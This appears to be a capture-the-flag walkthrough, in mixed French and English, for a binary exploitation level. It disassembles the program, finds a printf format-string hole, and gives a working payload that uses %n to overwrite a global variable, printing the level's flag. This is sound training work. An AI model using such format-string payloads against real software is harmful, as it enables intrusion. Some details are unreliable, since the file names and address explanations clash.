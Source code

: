 ```
objdump -M intel -d level4
```

Nous observons que la fonction main appelle une fonction "n" et une "p"
Qui elle même appelle printf, qui peut être exploitée.

```
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
```

```
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
```
This part is intersting, it makes a comparison, in case it's not equal it jumps to this adress 0x8049810.
The goal is to have this comparison true then we will have succeded.
To achieve this we have to change the value at 0x8049810 using printf.
La seule différence est qu'ici, la comparaison se fait avec un chiffre en "dur" :
0x8049810 -> decimal :16930116

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61: (nous avons rajouter des %x car l'offset est plus loin que precedemment)
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
```
On observe que l'adresse se trouve en 12eme position !


adresse of m: \x10\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  16930112 (- 4 car m)
modifier: %12$n

```
python -c 'print("\x10\x98\x04\x08" + "%16930112c" + "%12$n")' > /tmp/test12
cat /tmp/12 - | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
su level5
```
